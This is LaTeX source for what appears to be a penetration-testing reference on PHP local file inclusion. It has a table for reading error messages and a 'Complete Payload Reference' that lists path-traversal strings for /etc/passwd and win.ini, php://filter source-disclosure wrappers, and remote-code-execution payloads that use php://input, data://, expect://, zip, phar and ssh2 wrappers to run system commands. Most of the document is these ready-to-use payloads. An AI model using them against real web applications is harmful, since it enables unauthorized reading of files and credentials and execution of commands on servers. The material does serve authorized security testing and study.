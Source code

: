 \documentclass[12pt]{article}
\begin{document}
\subsection{Error Analysis}

Different errors indicate different things:

\begin{longtable}{|l|l|}
\hline
\textbf{Error Message} & \textbf{Indicator} \\
\hline
"failed to open stream" & Path exists, but can't read \\
\hline
"No such file or directory" & Path doesn't exist \\
\hline
"include()" warning & PHP include function \\
\hline
File contents displayed & Direct LFI/LFD \\
\hline
Base64 encoded output & php://filter working \\
\hline
Binary/gibberish output & Binary file read \\
\hline
\end{longtable}

\section{Complete Payload Reference}

\subsection{Basic Detection Payloads}

\begin{lstlisting}
# Linux
/etc/passwd
../../../../etc/passwd
....//....//....//etc/passwd
..;/..;/..;/etc/passwd

# Windows
windows/win.ini
../../../../windows/win.ini
..\\..\\..\\windows\\win.ini
\end{lstlisting}

\subsection{Wrappers and Filters}

\begin{lstlisting}
# PHP filter (read source)
php://filter/convert.base64-encode/resource=index.php
php://filter/string.tolower/resource=index.php
php://filter/string.rot13/resource=index.php

# PHP input (RCE)
php://input
[POST data: <?php system('id'); ?>]

# Data wrapper
data://text/plain,<?php system('id'); ?>
data://text/plain;base64,PD9waHAgc3lzdGVtKCdpZCcpOz8+

# Expect wrapper
expect://id
expect://ls -la

# Zip wrapper
zip:///tmp/shell.jpg%23shell.php

# Phar wrapper
phar:///path/to/phar.phar/file

# SSH2 wrapper
ssh2.shell://user:pass@host/command
\end{lstlisting}
\end{document}
